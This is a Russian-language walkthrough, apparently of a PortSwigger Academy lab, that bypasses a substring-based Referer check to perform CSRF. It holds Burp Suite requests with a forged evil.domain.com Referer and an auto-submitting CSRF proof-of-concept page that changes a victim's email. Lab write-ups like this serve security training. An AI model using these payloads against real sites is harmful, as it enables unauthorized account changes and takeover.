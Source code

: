 Залогинимся под `wiener:peter`

Изменим почту на `change@me.com`

Перейдем в `Proxy` -> `HTTP history` и найдем данный запрос
```
POST /my-account/change-email
...
email=change%40me.com
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/12.%20CSRF%20with%20broken%20Referer%20validation/pics%20for%20walkthrough/1.png)

Нажмем `ПКМ` -> `Engagement tools` -> `Generate CSRF PoC` 
и получим следующий PoC
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0900b5041fe30c8103acee004800d9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change&#64;me&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/12.%20CSRF%20with%20broken%20Referer%20validation/pics%20for%20walkthrough/2.png)

И нажмем кнопку `Test in browser`, и увидим в ответ `"Invalid referer header"`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/12.%20CSRF%20with%20broken%20Referer%20validation/pics%20for%20walkthrough/3.png)


Вернемся в Proxy -> HTTP history и найдем данный запрос
```
POST /my-account/change-email
...
Referer: http://burpsuite/
...
email=change%40me.com
```
И увидим, что `Referer` изменился

Теперь вернемся к нашему старому запросу на изменение почтового ящика
Изменим в ней `Referer`, добавив наш несуществующий домен

```
POST /my-account/change-email HTTP/2
...
Referer: https://evil.domain.com/?0a0900b5041fe30c8103acee004800d9.web-security-academy.net
...
email=change%40me.com
```
и видим, что запрос успешно выполняется, а это значит, что существует механизм проверки, что значение из `Host` входит в значение `Referer`. Если было бы строгое равенство - ничего не получилось, а так как лишь вхождение в подстроки - то все ок\

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/12.%20CSRF%20with%20broken%20Referer%20validation/pics%20for%20walkthrough/4.png)

Нажмем `ПКМ` -> `Engagement tools` -> `Generate CSRF PoC`
И наш сгенерированный PoC будет выглядеть как 

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0900b5041fe30c8103acee004800d9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change2&#64;me&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a0900b5041fe30c8103acee004800d9.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```


Изменм параметр `history.pushState на history.pushState('', '', '/?0a0900b5041fe30c8103acee004800d9.web-security-academy.net');`

Наш новый PoC будет выглядеть как
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0900b5041fe30c8103acee004800d9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change2&#64;me&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a0900b5041fe30c8103acee004800d9.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Отправим его в `Exploit server`, добавив в `Headers` значение 
```
Referrer-Policy: unsafe-url
```
и нажмем `Store` и `Deliver exploit to victim` получим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/12.%20CSRF%20with%20broken%20Referer%20validation/pics%20for%20walkthrough/5.png)
